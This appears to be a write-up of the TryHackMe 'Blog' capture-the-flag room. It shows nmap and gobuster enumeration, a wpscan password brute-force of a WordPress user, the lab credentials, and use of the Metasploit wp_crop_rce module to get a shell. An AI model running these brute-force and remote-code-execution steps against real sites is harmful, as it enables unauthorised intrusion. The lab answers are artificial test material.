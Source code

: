 ![](pics/b2.png)



[Link to room on TryHackMe.com](https://tryhackme.com/room/blog)

Welcome to my TryHacMe-Blog-WriteUp! first we add machines ip adress on our /etc/hosts file as blog.thm: 



```
echo "10.10.153.19 blog.thm" >> /etc/hosts
```



after that we start enumeration with rustscan and nmap:



```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a blog.thm
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
You miss 100% of the ports you don't scan. - RustScan

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.153.19:22
Open 10.10.153.19:80
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:36 +03
Initiating Ping Scan at 17:36
Scanning 10.10.153.19 [4 ports]
Completed Ping Scan at 17:36, 0.37s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 17:36
Scanning blog.thm (10.10.153.19) [2 ports]
Discovered open port 80/tcp on 10.10.153.19
Discovered open port 22/tcp on 10.10.153.19
Completed SYN Stealth Scan at 17:36, 0.41s elapsed (2 total ports)
Nmap scan report for blog.thm (10.10.153.19)
Host is up, received reset ttl 60 (0.35s latency).
Scanned at 2024-05-07 17:36:34 +03 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (128B)
```

```
┌─[root@parrot]─[/home/parrot]
└──╼ #nmap -sC -sV -A -Pn blog.thm -p 22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 17:38 +03
Nmap scan report for blog.thm (10.10.153.19)
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 2.6.39 - 3.2 (93%), Linux 3.1 - 3.2 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   232.47 ms 10.17.0.1
2   ... 4
5   354.48 ms blog.thm (10.10.153.19)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.92 seconds
```



then we see in results only two ports are open. After some research we find out there is no vulnerablity for the services with this versions. So we continue enumaration on port 80 with gobuster:



```
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://blog.thm/ -w common.txt -x php,html,txt,old,cgi,js
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blog.thm/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,old,cgi,js,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 273]
/.php                 (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 273]
/.hta.txt             (Status: 403) [Size: 273]
/.hta.old             (Status: 403) [Size: 273]
/.hta.cgi             (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/.hta.html            (Status: 403) [Size: 273]
/.htaccess.html       (Status: 403) [Size: 273]
/.htaccess.txt        (Status: 403) [Size: 273]
/.htaccess.old        (Status: 403) [Size: 273]
/.htaccess.cgi        (Status: 403) [Size: 273]
/.htaccess.js         (Status: 403) [Size: 273]
/.htaccess.php        (Status: 403) [Size: 273]
/.htpasswd.txt        (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htpasswd.html       (Status: 403) [Size: 273]
/.htpasswd.old        (Status: 403) [Size: 273]
/.htpasswd.cgi        (Status: 403) [Size: 273]
/.hta.php             (Status: 403) [Size: 273]
/.htpasswd.js         (Status: 403) [Size: 273]
/.hta.js              (Status: 403) [Size: 273]
/.htpasswd.php        (Status: 403) [Size: 273]
/0                    (Status: 301) [Size: 0] [--> http://blog.thm/0/]
/admin                (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/atom                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/embed                (Status: 301) [Size: 0] [--> http://blog.thm/embed/]
/favicon.ico          (Status: 200) [Size: 0]
/feed                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/index.php            (Status: 301) [Size: 0] [--> http://blog.thm/]
/index.php            (Status: 301) [Size: 0] [--> http://blog.thm/]
/license.txt          (Status: 200) [Size: 19935]
/login                (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php]
/n                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/N                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/no                   (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/note                 (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/page1                (Status: 301) [Size: 0] [--> http://blog.thm/]
/rdf                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/readme.html          (Status: 200) [Size: 7415]
/robots.txt           (Status: 200) [Size: 67]
/rss                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/rss2                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/server-status        (Status: 403) [Size: 273]
/w                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/W                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/welcome              (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/wp-admin             (Status: 301) [Size: 307] [--> http://blog.thm/wp-admin/]
/wp-app.php           (Status: 403) [Size: 0]
/wp-atom.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/atom/]
/wp-commentsrss2.php  (Status: 301) [Size: 0] [--> http://blog.thm/comments/feed/]
/wp-config.php        (Status: 200) [Size: 0]
/wp-content           (Status: 301) [Size: 309] [--> http://blog.thm/wp-content/]
/wp-cron.php          (Status: 200) [Size: 0]
/wp-feed.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-includes          (Status: 301) [Size: 310] [--> http://blog.thm/wp-includes/]
/wp-links-opml.php    (Status: 200) [Size: 233]
/wp-load.php          (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 3087]
/wp-mail.php          (Status: 403) [Size: 2768]
/wp-rdf.php           (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/wp-register.php      (Status: 301) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/wp-rss.php           (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-rss2.php          (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-settings.php      (Status: 500) [Size: 0]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://blog.thm/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 32298 / 32305 (99.98%)
===============================================================
Finished
===============================================================
```



We see there is too much directories. First we go to the robots.txt and we see there is some infos:



![](pics/b3.png)



After some research we find out when we go to the /wp-admin its redirects us to a wordpress login page. So we found our first flag "What CMS was Billy using?" answer for this question is wordpress. When we try with some common credentials we cant login. So we need a username after some research we find out when we go the http://blog.thm and click comments after that when we click back button on the browser we see something interesting:



![](pics/b4.png)



So we see there is a author named kwheel. Its Karen Wheeler's username. When we try for username bjoel its too exists but if we try bruteforce attack for bjoel we cant find password in rockyou.txt  . Then we start a bruteforce attack with wpscan with this command for kwheel:



```
wpscan --url http://10.10.35.12/wp-login.php -U kwheel -P /home/parrot/rockyou.txt
```


![](pics/b5.png)



And then we find the password and during the bruteforce attack wpscan gives us the second flag "What version of the above CMS was being used?":



![](pics/b6.png)



When we login with this credentials we see there is no plugins. After some research i found a great exploit for wordpress 5. So we use the exploit  exploit/multi/http/wp_crop_rce . and then we set options like this and run:



```
set RHOSTS blog.thm
```

```
set USERNAME kwheel
```

```
set PASSWORD cutiepie1
```

```
run
```



And we see its worked we have a meterpreter shell. Then we use this commands to get a normal shell:



```
shell
```

```
python3 -c 'import pty;pty.spawn("/bin/bash"'
```
